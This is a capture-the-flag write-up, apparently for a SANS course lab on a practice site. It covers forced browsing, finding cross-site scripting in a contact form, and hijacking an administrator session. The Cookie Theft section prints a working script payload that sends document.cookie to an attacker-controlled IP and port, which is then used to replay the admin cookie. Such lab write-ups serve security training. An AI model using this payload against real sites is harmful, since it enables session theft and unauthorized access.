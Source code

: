 # Contact

* Challenge - Interact with the contact form on the http://www.issplaylist.com website. What is the flag returned as the reference number?
* Points - 3

First, I navigated to the website in the question. From there, I clicked "Contact" in the navbar at the top of the site to go to the contact form. After that, I submitted the form with expected input to get the flag. 

![Contact-1](https://github.com/user-attachments/assets/554573b6-cf11-4d39-a61c-cf6ef2dabf2f)

![Contact-2](https://github.com/user-attachments/assets/b3b72e0c-c945-4e90-9853-8fc67ccccce5)


# Vulnerability Discovery

* Challenge - Explore the Contact page on the http://www.issplaylist.com website to identify a vulnerability. Identify the type of vulnerability.
* Points - 5

First, I tried experiemnting with including a ' in the fields to get an SQL error. That did not work, as I got the same flag as the previous challenge. 

![Vulnerability-Discovery-1](https://github.com/user-attachments/assets/9e6c2acb-21c3-492b-bed5-c3d5f6de6aa3)

Then I tested for a different input based vulnerability by typing the hr HTML tag into each field of the contact form. I noticed the horizontal line from the hr HTML tag was displayed on the page. 

![Vulnerability-Discovery-2](https://github.com/user-attachments/assets/da88e1ea-a407-428c-8be7-c17f6c381823)

This means my input was reflected on the page. To confirm this, I viewed the page source, and used CTRL + F to look for my input, the hr HTML tag. The page source shows my input.  

![Vulnerability-Discovery-3](https://github.com/user-attachments/assets/5fcfa96a-4913-4b4c-9a2b-12733f806139)


# Forced Browsing

* Challenge - Identify the hidden page on the http://www.issplaylist.com server. Submit the page name (XXXXX.html).
* Points - 5

Typically, administrators pages are hidden from normal users. If a web server is misconfigured, you can just go straight to that hidden page with a forced browsing attack. From the question, we know the page name is five characters. With that knowledge, I find the answer.  

![Forced-Browsing-1](https://github.com/user-attachments/assets/3d6c7c7c-4629-4a5d-a35c-6871f3924e4f)


# Cookie Theft

* Challenge - Administrators for the http://www.issplaylist.com site frequently examine the contact page submissions using their browsers. Exploit the site vulnerability to steal cookie content from the administrator. What is the name of the cookie used to authenticate administrative users?
* Points - 5

From the Vulnerability Discovery challenge, I know the site is vulnerable to a specific input based attack. In Lab 4.4 from this course, SANS supplied to us a cookiecatcher PHP file. I started a PHP web server to listen for the cookie.

![Cookie-Theft-1](https://github.com/user-attachments/assets/651eb28a-e077-49d8-a4f3-647beb1cce5c)

After starting the listener on my attacker terminal, I went back to the browser. At the contact form, I put the following string in all of the fields then submited the form - ```<script>document.location='http://10.142.148.12:2222/?'+document.cookie;</script>```

![Cookie-Theft-2](https://github.com/user-attachments/assets/92775db5-f99f-4975-bead-2d2a6ef18727)

Going back to my attacker terminal, where the cookiecatcher PHP file is running, I can see the name of the stolen cookie. 

![Cookie-Theft-3](https://github.com/user-attachments/assets/96974117-4f82-4657-acc7-190582a682f6)


# Unauthorized Access

* Challenge - Use the stolen cookie to access the admin page. Submit the flag.
* Points - 5

Now that I have the cookie for admin from the Cookie Theft challenge, I can use curl with the -b argument to specify a token and return the content of that page as if I were logging in as an administrator. In my attacker terminal, I ran a curl command to get access to the hidden page from the Forced Browsing challenge.

This returned the hidden page output. I scroll down to see the flag. 

![Unauthorized-Access-1](https://github.com/user-attachments/assets/32a2744e-00b6-4bba-a965-428df3bed6e4)

![Unauthorized-Access-2](https://github.com/user-attachments/assets/f342c0ec-3b34-451e-b4e8-10c872c88e94)
